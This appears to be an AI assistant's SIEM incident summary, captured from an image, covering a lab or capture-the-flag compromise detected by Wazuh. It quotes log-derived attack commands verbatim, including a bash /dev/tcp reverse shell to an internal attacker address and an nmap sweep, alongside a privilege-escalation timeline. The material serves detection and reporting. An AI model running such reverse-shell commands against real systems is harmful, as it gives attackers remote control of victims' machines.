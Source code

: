 # Attack Investigation Summary

Based on the Wazuh SIEM analysis of the last hour, **YES, there were significant attacks detected**. Here's what I found:

## 🚨 **Critical Security Incidents (Level 12 Alerts)**

**1. Privilege Escalation & Data Exfiltration** (03:51:49 & 03:51:42)

- **Attack Vector**: Malicious backup binary execution
- **Impact**: Root access obtained and flag.txt (sensitive data) exfiltrated
- **Details**: Attacker executed `/usr/local/bin/backup` with commands:
  - `backup config_verify` - extracted `/root/flag.txt`
  - `backup audit_sample` - confirmed root access via `whoami`
- **Container**: `88eff591f3d5` (victim-host)

## 🔍 **Reverse Shell Activity (Level 6 Alerts)**

**2. Multiple Reverse Shell Connections** (03:50:16 - multiple instances)

- **Attack Vector**: Network redirections to establish persistent access
- **Connection**: `172.20.0.20:37744 -> 172.20.0.30:8443`
- **Command**: `bash -c exec bash -i >& /dev/tcp/172.20.0.30/8443 0>&1`
- **Impact**: Interactive shell established from victim to attacker system

## 🌐 **Network Reconnaissance** (03:47:24)

- **Tool**: nmap scan executed (`nmap --privileged -sn 172.20.0.1-50`)
- **Impact**: Network discovery of lab infrastructure

## 📋 **Administrative Activity Pattern**

- Legitimate SSH connections from `172.20.0.1` (labadmin user)
- System cleanup activities (removing CTF infrastructure)
- User account management (webservice user deletion)

## **Attack Timeline**

1. **03:47:24** - Network reconnaissance (nmap scan)
2. **03:50:16** - Reverse shell establishment
3. **03:51:42** - Root privilege escalation confirmation
4. **03:51:49** - Sensitive data exfiltration (`/root/flag.txt`)
5. **04:11:10** - Administrative cleanup/reset

**Risk Level**: **HIGH** - The attacks successfully achieved:

- ✅ Initial access
- ✅ Privilege escalation to root
- ✅ Persistent access via reverse shell
- ✅ Data exfiltration of sensitive files

This appears to be a successful penetration test or CTF scenario where an attacker gained complete system compromise.
